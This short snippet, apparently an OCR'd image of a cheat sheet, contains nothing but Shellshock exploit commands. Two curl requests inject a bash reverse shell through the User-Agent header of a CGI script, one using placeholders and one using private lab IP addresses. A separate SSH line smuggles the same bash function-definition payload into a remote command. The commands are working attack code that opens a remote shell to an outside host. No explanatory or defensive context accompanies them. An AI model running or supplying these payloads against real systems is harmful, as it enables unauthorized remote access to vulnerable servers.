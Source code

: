 ````bash

```bash
curl -x TARGETADDRESS -H "User-Agent: () { ignored;};/bin/bash -i >& /dev/tcp/HOSTIP/1234 0>&1" TARGETADDRESS/cgi-bin/status
```

```bash
curl -x 192.168.28.167:PORT -H "User-Agent: () { ignored;};/bin/bash -i >& /dev/tcp/192.168.28.169/1234 0>&1" 192.168.28.167/cgi-bin/status
```

SSH

```bash
ssh username@IPADDRESS '() { :;}; /bin/bash'
```